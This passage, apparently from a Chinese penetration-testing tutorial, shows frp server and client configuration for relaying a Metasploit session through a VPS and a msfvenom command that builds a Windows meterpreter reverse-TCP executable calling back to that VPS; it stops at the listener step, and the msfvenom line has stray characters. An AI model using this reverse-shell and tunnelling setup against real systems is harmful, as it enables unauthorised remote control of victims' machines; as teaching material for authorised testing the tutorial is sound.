 ### **7.2 反向代理**

`#环境**：**``kali：192.168.109.128``Win2008：192.168.1.10``vps：x.x.x.x`

①服务端配置

```
#frp服务端与客户端连接端口，frps和frpc必须一致
bind_port = 7000
```

②服务端启动 frp

```
./frps -c ./frps.ini
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS01wmOby3iaSF4QIyMpk77exFQZ5Mnxj8F53YONxIFHb4mdRT0ESTO1Cg/640?wx_fmt=png)  

③客户端 frpc.ini 文件配置

```
[common]
server_addr = x.x.x.x     #你的云主机ip
server_port = 7000        # frpc工作端口，必须和上面frps保持一致

[msf]
type = tcp
local_ip = 127.0.0.1
local_port = 5000            #转发给本机的5000
remote_port = 6000         #服务端用6000端口转发给本机 
```

④启动客户端

```
./frpc -c ./frpc.ini
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0xUyRpdGCH7gDpfbzCCXSalsZNyY6Ewp1ricwPknGriawHSXubPVm9jibA/640?wx_fmt=png)  

  
⑤连接成功  

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0nFEQuGe8X6BfH6pQwGAHx37wMztiaSthg5jyN1pdNDiaLmmDVuukXKUA/640?wx_fmt=png)

  
⑥msf 生成 payload  

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=x.x.x.x lport=6000 x-f exe x>frp.exe
#注意：
lhost：必需设置为vps服务端ip
lport：设置你在frpc.ini的remote_port = 6000
```

只有通过服务器的 6000 端口数据包才能成功转发 kali，这也是使用 frp 反向代理原因

  
⑦msf 开启监听  

